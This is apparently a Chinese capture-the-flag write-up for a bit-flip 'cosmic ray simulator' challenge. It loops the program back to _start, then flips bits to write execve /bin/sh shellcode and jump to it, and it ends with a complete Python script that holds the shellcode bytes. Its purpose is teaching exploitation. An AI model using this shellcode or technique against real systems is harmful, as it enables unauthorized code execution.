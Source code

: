 # 超精准的宇宙射线模拟器

首先拖到 ida 里看一眼，然后发现 ida 并不认识这个程序里的一部分结构，没办法正常把导入的函数对应上。（这个地方我现在还不清楚是怎么弄的，难道 7.0 的问题？

这个时候就只能借助 ghidra 了，导入后发现 ghidra 反编译就没有任何问题。

分析代码逻辑后发现，程序可以对任意内存的任意一位进行翻转，然后就会直接退出，因此唯一能做的就是找一下应该怎么翻转这一位。

扔掉反编译结果，直接看了一下汇编代码：

![image](https://user-images.githubusercontent.com/861659/98482875-a0c1a600-2247-11eb-9c79-127ae48ba50c.png)

翻转后只能调用 `puts` 打印一行 done 然后 `exit(0)`，连 ret 的地方都不给。那看来只能在这两个 call 上做文章了。分析了一下第一行 call 的地址附近发现下面就是程序开始的地方 `_start`，地址是 `4010D0`，和 `exit` 的 `4010C0`只差了一点，尝试后发现 `401296` 地点的 `26` 改成 `36` 即可使程序跳回 `_start`：

![image](https://user-images.githubusercontent.com/861659/98483009-863bfc80-2248-11eb-92a2-f92ac3e125c3.png)

这样一来我们能做的就不止是翻转一位了，而是可以任意重复执行程序直到我们玩腻了为止（或者服务器不耐烦了 kill 掉了连接）。于是我们可以利用这一点任意改写程序内存，对解题来说只需要写一个 shellcode 进去然后跳过去即可。不过在写之前我们需要考虑 shellcode 写到哪比较好，因为我们当前的程序逻辑依赖了 `_start` 的地方，所以原来的 `exit` 所在地点只有 16 字节的空间，这点空间是放不下 shellcode 的，只能另找地方。（看了题解发现这个原因在于我循环找的地方太远了，不过 it works（

分析程序内存后发现 `401020` 到 `40107F` 之间的空间都可以任意覆盖，从 `401080` 开始就是需要用到的库函数了。因此我们需要找到下一个跳转点。

尝试后发现，把 `40108C` 的 `F0` 改成 `D0` 即可让程序调用 `401060`，而这个地方有 32 字节的空间，够我们放下一个能用的 shellcode。

之后只需要写个代码自动生成一下所有需要的反转命令然后打过去就可以了。

最终代码：

```py
shellcode = b"\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
original = b"\xF3\x0F\x1E\xFA\x68\x03\x00\x00\x00\xF2\xE9\xB1\xFF\xFF\xFF\x90\xF3\x0F\x1E\xFA\x68\x04\x00\x00\x00\xF2\xE9\xA1\xFF\xFF\xFF\x90"


def flip(addr, bit):
    return "0x%x %d\n" % (addr, bit)

def generate_flips():
    commands = ""
    # set up infi loop
    commands += flip(0x401296, 4)
    # set up shellcode at 0x401060
    for i in range(len(shellcode)):
        for j in range(8):
            if (shellcode[i] >> j) & 1 != (original[i] >> j) & 1:
                commands += flip(0x401060 + i, j)
    # call shellcode
    commands += flip(0x40128c, 5)
    return commands


def main():
    print(generate_flips())

if __name__ == '__main__':
    main()
```